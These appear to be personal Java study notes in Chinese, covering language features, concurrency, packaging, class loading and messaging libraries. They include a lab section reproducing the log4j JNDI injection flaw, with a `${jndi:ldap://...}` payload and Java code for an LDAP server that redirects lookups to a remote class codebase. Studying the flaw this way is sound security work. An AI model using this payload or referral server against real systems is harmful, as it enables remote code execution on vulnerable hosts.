## 模式匹配

```java

   public void m(Object o) {
        // 不需要再做强制转换
        if (o instanceof String s) {
            System.out.println(s+",hello!");
        } else {

        }
    }
```

## 并发 并行

并发: 各个任务互相交替运行
并行: 各个任务同时运行(需要多台处理器)

## 协程(微线程)

程序自身控制线程切换, 没有锁机制

多进程+协程 利用多核CPU

当进程内部一个线程修改数据以后, 另一个线程才会读取.

是用户态切换的线程

## java loom (协程)

<https://blogs.oracle.com/javamagazine/going-inside-javas-project-loom-and-virtual-threads>

## jpackage  打包exe (16 正式)

windows需要安装 <https://wixtoolset.org/releases/> , 并配置环境变量.

参考1: <https://openjdk.java.net/jeps/392>
参考2: <https://docs.oracle.com/en/java/javase/16/jpackage/packaging-overview.html#GUID-C0AAEB7D-1FAB-4E20-B52C-E2401AC2BABE>

例如:

```bash
jpackage --name ScreenShot --input . --main-jar  ScreenShot.jar
```

## Unix-Domain Socket Channels

<https://openjdk.java.net/jeps/380>

## ZGC

多个线程并行

<https://malloc.se/blog/zgc-jdk16>

## Java Flow API

类似RxJava

## 无符号右移

 Java 中无符号右移为 `>>>`

## 1

```java
boolean s = file.exists() || file.createNewFile();
```

## The Java Class Loading Mechanism

The basic idea is that every class loader has a "parent" class loader.

When loading a class, a class loader first "delegates" the search for the class to its parent class loader before attempting to find the class itself.

delegate vt. 委派…为代表 n. 代表

parent n. 父亲（或母亲）；父母亲；根源

也就是说parent 可以不翻译成 双亲，这里本来也是单亲😄️。

双亲委派 翻译的效果 ， 应该和 鲁棒性 一个效果。

这种思想是为了避免加载多份类，也可以自定义classloader ,重写loadClass方法,实现如果本地有，就加载自己的，否则上委托，达到Class隔离的目的。

## akka

并发并行，分布式

用于设计跨处理器和跨网络的可扩展弹性系统。Akka允许开发者专注于满足业务需求,而不是编写低级代码以提供可靠的行为,容错和高性能

distributed, resilient and elastic applications

<https://github.com/akka/akka>


# log4j 注入漏洞

<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832>

<https://github.com/apache/logging-log4j2/blob/b93cdf94167691cf509c15f69f3857abaaa80765/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java#L57>

<https://github.com/apache/logging-log4j2/blob/b93cdf94167691cf509c15f69f3857abaaa80765/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java>

## 准备

启动 ldap 服务, 可以参考[Ldap](./Ldap/Ldap.md)

使用 log4j , 在<https://mvnrepository.com> 搜索依赖的版本, 对应漏洞会有提示.

如果使用spirng boot 测试 需要做如下处理:

```xml
<!-- 移除 spring 框架默认的 logback -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>  <!-- declare the exclusion here -->
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<!-- https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2 -->
<!-- 添加依赖 -->
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
    <version>2.6.2</version>
</dependency>
```

在 Oracle JDK 11.0.1, 8u191, 7u201, and 6u211及以后的版本，默认不允许LDAP从远程地址加载Reference工厂类。
启动时需要添加`System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");`

## 测试

打印日志，比如`log.error("${jndi:ldap://127.0.0.1:10389}");`(根据日志级别而定)

可以看到打印的日志有类似内容:`com.sun.jndi.ldap.LdapCtx@5fa7e7ff`，ldap 服务器上也能看到请求记录(需要更改打印日志级别)；

Ladp 返回class, 这个class 不能有package name

Ldap sdk(简单搭建一个服务)
<https://ldap.com/unboundid-ldap-sdk-for-java/>

```java
    InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
    config.setListenerConfigs(new InMemoryListenerConfig(
        "listen", //$NON-NLS-1$
        InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
        port,
        ServerSocketFactory.getDefault(),
        SocketFactory.getDefault(),
        (SSLSocketFactory) SSLSocketFactory.getDefault()));

    config.addInMemoryOperationInterceptor(new OperationInterceptor(this.codebase_url));
    InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
    ds.startListening();
private static class OperationInterceptor extends InMemoryOperationInterceptor {
 @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
            String cbstring = this.codebase.toString();
            String javaFactory = Mapper.references.get(base);

            if (javaFactory != null){
                URL turl = new URL(cbstring + javaFactory.concat(".class"));
                System.out.println(getLocalTime() + " [LDAPSERVER] >> Send LDAP reference result for " + base + " redirecting to " + turl);
                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaCodeBase", cbstring);
                e.addAttribute("objectClass", "javaNamingReference");  
                e.addAttribute("javaFactory", javaFactory);
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }else {
                System.out.println(getLocalTime() + " [LDAPSERVER] >> Reference that matches the name(" + base + ") is not found.");
            }
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
}
```

编译一个class.

### 泄漏信息

## JNDI

Java命名和目录接口（JNDI）是一种Java API. 它可以与各种不同的Naming Service和Directory Service进行交互，比如RMI(Remote Method Invocation)，LDAP(Lightweight Directory Access Protocol，Active Directory，DNS，CORBA(Common Object Request Broker Architecture)等。

这个漏洞是JNDI 注入漏洞.


## rocketmq

分布式消息中间件